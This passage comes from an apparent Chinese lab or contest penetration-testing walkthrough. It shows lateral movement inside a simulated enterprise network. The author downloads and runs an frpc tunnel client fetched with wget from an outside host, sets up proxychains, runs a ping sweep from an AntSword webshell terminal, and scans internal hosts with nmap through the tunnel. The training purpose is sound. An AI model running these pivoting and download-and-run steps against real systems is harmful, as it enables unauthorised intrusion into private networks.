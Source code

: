 ```
wget http://99.99.99.100:8000/frpc

wget http://99.99.99.100:8000/frpc.ini
```

![image-20221109153402658930-1669009354723886.png](img/典型企业生产环境渗透赛 Local.assets/71ecb041c5271fd52da0459c2c561fc7.png)

执行命令启动代理客户端：

```
chmod +x frpc

./frpc -c ./frpc.ini
```

![image-20221109154053466930-1669009355907438.png](img/典型企业生产环境渗透赛 Local.assets/f4bb9964a2b0aa1a164aacbe6f8334ec.png)

代理隧道建立成功：

![image-20221121100150734709-1669009357267128.png](img/典型企业生产环境渗透赛 Local.assets/35ba08f34832eb73803da87513fb2ac6.png)

在`Kali_tools`主机的终端中执行命令修改代理规则：

```
vim /etc/proxychains4.conf
```

![image-20221121100316941799-1669009358418520.png](img/典型企业生产环境渗透赛 Local.assets/aba33a4dd8f4cc5c5fa405e4863b4e9d.png)

测试代理有效性，访问内网主机：

```
proxychains4 curl 192.168.12.50
```

![image-20221121100359829143-1669009359608199.png](img/典型企业生产环境渗透赛 Local.assets/f0502a92a34e41123a66ae2ab919206f.png)

进入`Win10_tools`主机，在蚁剑终端中执行命令对内网地址段进行存活主机探测：

```
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.12.%I | findstr "TTL"  >> 1.txt
```

稍等片刻后查看`1.txt`文件内容，发现存活主机：

![image-20221110102057500671-1669009360804491.png](img/典型企业生产环境渗透赛 Local.assets/397bf9d8995b937c3429a789e8af43f7.png)

回到`Kali_tools`主机，使用nmap对存活主机进行端口探测：

```
proxychains4 nmap -Pn -sT -p 22,80,443,445,3306,3389,8080,8888,8983 192.168.12.50
```

![image-20221110102515344019-1669009361985492.png](img/典型企业生产环境渗透赛 Local.assets/a8d18f24e0a77e496ed3b2b07407aa12.png)

```
proxychains4 nmap -Pn -sT -p 22,80,443,445,3306,3389,8080,8888,8983 192.168.12.55
```
